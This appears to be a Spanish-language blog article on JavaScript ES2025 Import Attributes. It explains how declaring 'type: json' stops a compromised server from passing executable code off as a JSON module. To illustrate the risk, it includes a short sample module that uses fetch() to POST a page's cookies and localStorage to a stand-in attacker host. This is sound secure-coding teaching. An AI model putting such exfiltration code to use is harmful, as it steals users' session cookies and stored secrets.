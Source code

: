 ```yaml
---
title: "Lo nuevo de JavaScript ES2025: Import Attributes"
description: Una nueva forma de hacer que las importaciones de módulos sean más seguras.
date: 2024-11-22T21:33:25.684Z
update: 2025-09-12T13:03:04.439Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programación
  - JavaScript
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
themeColor: "#f0db4f"
---
```


<BaselineStatus id="json-modules" />

JavaScript incluyó **Import Attributes**, una característica que te permite declarar explícitamente qué tipo de módulo estás importando. Esta adición aporta mayor seguridad y claridad a las importaciones de módulos, especialmente para JSON y otros módulos que no son de JavaScript.

## El problema con las extensiones de archivo

Al importar módulos en la web, no podemos usar de forma fiable las extensiones de archivo para determinar el tipo de módulo. Un servidor podría enviar código JavaScript incluso cuando se solicita un archivo con extensión `.json`, lo que podría crear riesgos de seguridad:

Lo que esperas recibir:

```js title="main.js"
import config from "./config.json";
```

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

Lo que un servidor comprometido podría enviar en su lugar:

```js title="config.json"
export default (function () {
  // Envía sus claves API a un atacante
  fetch("https://attacker.hack", {
    method: "POST",
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Luego devuelve lo que parece una configuración normal
  return {
    accessToken: "secret-key",
    refreshToken: "secret-key",
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## La solución: Import Attributes

Los Import Attributes te permiten declarar explícitamente qué tipo de módulo esperas recibir, creando un contrato que los entornos de JavaScript deben hacer cumplir:

```diff title="main.js"
- // SIN Import Attributes - potencialmente inseguro
- import config from "./config.json";
+ // CON Import Attributes - importación segura de JSON
+ import config from "./config.json" with { type: "json" };
```

## ¿Dónde se pueden usar los Import Attributes?

La sintaxis funciona de manera consistente en diferentes escenarios de importación:

```js
// Importaciones regulares
import config from "./config.json" with { type: "json" };

// Importaciones dinámicas
const config = await import("./config.json", {
  with: { type: "json" }
});

// Re-exportaciones
export { apiKey } from "./config.json" with { type: "json" };

// Módulos JavaScript
import module from "./module.js" with { type: "javascript" };

// Web Workers
new Worker("worker.wasm", {
  type: "module",
  with: { type: "webassembly" }
});
```

## Beneficios clave

- **Seguridad**: Al importar módulos JSON, el atributo `type: "json"` garantiza que recibirás datos JSON o un error, pero nunca código ejecutable.
- **Consistencia**: Proporciona una forma estándar de manejar diferentes tipos de módulos en todos los entornos de JavaScript.
- **Extensibilidad**: Aunque los módulos JSON son el primer caso de uso, la sintaxis está diseñada para admitir futuros tipos de módulos y atributos de metadatos adicionales.
- **Control de Caché**: Los *hosts* (entornos de ejecución) pueden usar los atributos como parte de su estrategia de caché de módulos, y el comportamiento es definido por cada entorno.

## Aplicaciones prácticas

- **Módulos JSON**: El caso de uso principal de los atributos de importación es cargar módulos JSON de forma fiable. Al especificar `type: "json"`, garantizas que el servidor entregue los datos como JSON y no como código potencialmente malicioso.
- **Importaciones dinámicas**: Los atributos de importación permiten usar importaciones dinámicas (`await import()`) y tener control sobre el tipo de módulo, lo que las hace más flexibles para diversos casos de uso.
